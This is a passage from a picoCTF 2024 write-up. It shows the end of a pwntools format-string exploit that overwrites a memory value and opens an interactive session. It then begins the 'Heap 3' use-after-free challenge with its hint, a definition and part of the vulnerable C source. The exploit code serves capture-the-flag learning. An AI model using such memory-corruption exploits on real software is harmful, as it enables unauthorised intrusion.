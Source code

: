 ```python
payload = fmtstr_payload(14, {address: value})
p.sendlineafter(b'say?', payload)
p.recvuntil(b'I have NO clue')
p.interactive()
print(p.recvuntil('?'))
```
Running this we get success! Please check on your own remote instance. 

![Image of exploit success](/img/writeups/2024/picoCTF2024/formatstring02-1.png)

Resources: 



### Heap 3
> This program mishandles memory. Can you exploit it to get the flag? 
>
> Download the binary here.
>
> Download the source here.
>
> Connect with the challenge instance here: nc tethys.picoctf.net 65312

This problem was intially a bit confusing, but in retrospect it was pretty easy. 

The problem gives us this hint: `Check out "use after free"`

Hmmm... what could "use after free" possibly mean and how does it relate to heap overflow?
Heres the definition of "use after free":

```Once free is called on an allocation, the allocator is free to re-allocate that chunk of memory in future calls to malloc if it so chooses. However if the program author isn't careful and uses the freed object later on, the contents may be corrupt (or even attacker controlled). This is called a use after free or UAF.```

Let's read the source code. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct size 35
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5]; //we have to modify this "area" from bico to pico
} object;

int num_allocs;
object *x;

void check_win() {
//just need to change it from bico to pico
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

```